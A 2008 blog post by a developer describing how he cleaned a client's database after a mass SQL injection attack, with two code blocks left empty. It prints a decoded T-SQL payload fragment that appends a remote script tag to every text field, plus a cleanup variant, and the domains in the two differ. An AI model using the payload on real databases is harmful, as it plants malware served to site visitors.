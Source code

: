 ```yaml
---
id: 47
title: 'Using SQL Injection attack code to repair database'
date: '2008-09-25T15:42:20-04:00'
author: Tea
layout: revision
guid: 'http://www.wirelust.com/2008/09/25/39-revision-8/'
permalink: '/?p=47'
---
```


Now that Google has started flagging sites that are linking to badware in their index I've been getting quite a few calls from people who have been flagged and need to get back on track.

These are often sites that were written a while back (not by myself) when developers didn't think as much about SQL injection as they do now. Sometimes the code was just poorly written by someone who didn't know better. However it happened, each site has its own challenge.

Fixing the security hole is generally straight forward — I usually just have to identify where the SQL isn't properly escaped and fix that code. The hard part I have had fixing these sites is fixing the database itself. Some clients have backups, and some I can fix with [SQL Log Rescue](http://www.red-gate.com/products/SQL_Log_Rescue/index.htm), but generally a lot of small clients simply don't have great control over their server and often don't have any backups.

I had one such of these clients this week where their database had hundreds and hundreds of tables, all with malware code injected into the data. I was initially going to write a script to clean all the data, but after looking at the malware attack, I was able to use their own code to fix the database.

In the server log files. I noticed this request was coming in for every script several times a day. Looks like it just wanders the internet hoping that that id=2 in the query string won't be escaped in the code.

```php
 
```

  
If the id isn't escaped, as it wasn't in this situation, a query like this will hit your SQL server:

```tsql
 
```

hmm. okay. so what is it executing as the value of @S?  
If you change the statement from EXEC(@S) to PRINT(@S) you get this:  
Warning: **Do not run this on your server, it will mess up ALL of your data**

```tsql
'u''update ['+@T+'] set ['+@C+']=''"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--''+['+@C+'] where '+@C+' not like ''%"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--'''
```

I thought this code was pretty clever. It selects a cursor that contains every varchar and text field in every table on the database, then loops over the cursor and issues an update command to append their bad script to the end of the data in each field.

Luckily, it is in their best interest to leave your data in place and just place their code at the end – it increases the chance you won't know your site is infected.

Since all of the original data is still in the database, I was able to tweak their code a little bit to write a script to fix the data:

```tsql
'u''update ['+@T+'] set ['+@C+']=Replace(['+@C+'], ''<script src=http://www.bnradw.com/b.js></script>'', '''') where '+@C+' like ''%<script src=http://www.bnradw.com/b.js></script>%'''-- exec(@SQL)
 
```